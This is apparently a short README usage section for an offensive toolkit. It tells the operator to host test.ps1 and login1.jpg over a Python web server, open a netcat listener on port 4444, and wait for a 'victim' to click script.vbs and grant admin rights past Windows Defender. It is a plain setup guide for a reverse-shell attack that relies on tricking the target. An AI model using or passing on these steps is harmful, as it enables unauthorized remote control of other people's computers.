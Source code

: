 # Usage
Move the test.ps1 and login1.jpg to ```/var/www/html``` in your linux machine and start a listener in this directory. I prefer python: 
```
python3 -m http.server
```
After it starts runnin' on port 8000, open a separate terminal and run netcat on port 4444:
```
nc -lnvp 4444
```

Then all you need to do is wait for the victim to click on the 'script.vbs' of the repo and allow the admin windows defender.


